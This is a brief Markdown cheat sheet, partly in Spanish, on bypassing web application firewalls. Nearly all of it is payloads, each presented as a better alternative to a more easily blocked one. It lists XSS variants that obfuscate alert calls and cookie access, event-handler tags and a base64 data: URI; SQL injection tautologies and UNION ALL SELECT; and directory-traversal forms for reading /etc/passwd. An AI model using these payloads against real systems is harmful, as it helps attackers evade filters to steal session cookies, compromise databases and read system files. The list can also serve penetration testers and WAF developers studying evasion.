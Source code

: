 ByPass WAFs

```
|-| = en vez de usar esto
|→| = la mejor opción es
```

#### Cross-Site Scripting:

```
- alert('xss') 
- alert(1)
→ prompt('xss') 
→ prompt(8)
→ confirm('xss')
→ confirm(8)
→ alert(/xss/.source)
→ window[/alert/.source](8)

- alert(document.cookie) 
→ with(document)alert(cookie) 
→ alert(document['cookie'])
→ alert(document[/cookie/.source])
→ alert(document[/coo/.source+kie/.source])

- <img src=x onerror=alert(1);>
→ <svg/onload=alert(1)>
→ <video src=x onerror=alert(1);>
→ <audio src=x onerror=alert(1);>

- javascript:alert(document.cookie)
→ data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=
```

#### Blind SQL Injection

```
- 'or 1=1           '
- 'or 6=6           '
→ 'or 0x47=0x47     '
- or char(32)=''
→ or 6 is not null
```

#### SQL Injection

```
- UNION SELECT
→ UNION ALL SELECT
```

#### Directory Traversal

```
- /etc/passwd
→ /too/../etc/far/../passwd
→ /etc//passwd
→ /etc/ignore/../passwd
→ /etc/passwd........
```
